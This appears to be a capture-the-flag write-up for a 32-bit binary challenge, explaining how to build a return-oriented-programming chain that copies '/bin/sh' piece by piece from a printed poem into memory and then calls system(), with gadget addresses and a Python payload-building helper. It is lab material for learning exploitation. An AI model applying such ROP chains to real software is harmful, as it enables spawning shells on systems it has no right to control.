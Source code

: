 # solution
This binary is a little bit harder.
We do have a call to system()
But we don't have /bin/sh anywhere and no chance to leak a libc base address (Hope so :-D ).
So we need to build our /bin/sh using what we have, and this is a famous poem that gets printed to the shell.

By using existing gadgets like:

 804858f:       5f                      pop    edi
 8048590:       c3                      ret
 8048591:       5e                      pop    esi
 8048592:       c3                      ret
 8048593:       31 c0                   xor    eax,eax
 8048595:       c3                      ret
 8048596:       89 17                   mov    DWORD PTR [edi],edx
 8048598:       c3                      ret
 8048599:       8b 16                   mov    edx,DWORD PTR [esi]
 804859b:       c3                      ret

we can construct a ropchain which can construct our string char/chunk by char/chunk.

Address to store our created string: 0x804a020
-> should come into RDI
We can use mov DWORD PTR [edi], edx to write to that address what we have in edx!
We get a value into edx via "mov edx, DWORD PTR [esi]"
esi should then point into a address into our poem from where 4 bytes will be copied into edx.
The value for esi, we get from the pop esi gadget

Example for copying the very first char "/" of /bin/sh (or maybe better: put / as the very first char and some junk which will be overwritten starting at pos1 in the next iteration with "bi" -> /bi.... etc.

xor = 80486cd war 8048593 -> offset 13a
POPEDI=0x804858f
POPESI=0x8048591
MOV=0x8048596
MOVESI=0x8048599
START=0x804a020
SYSTEM=0x804850c

def poppi(offset, ressource):
    global payload
    payload += p32(POPEDI)
    payload += p32(START+offset)
    payload += p32(POPESI)
    payload += p32(ressource)
    payload += p32(MOVESI)
    payload += p32(MOV)

poppi(0, 0x804a5b2) --> puts /... to 0x804a020
poppi(1, 0x804a451) --> puts bi.. to 0x804a021 -> 0x804a020 = /bi...

see solution.py
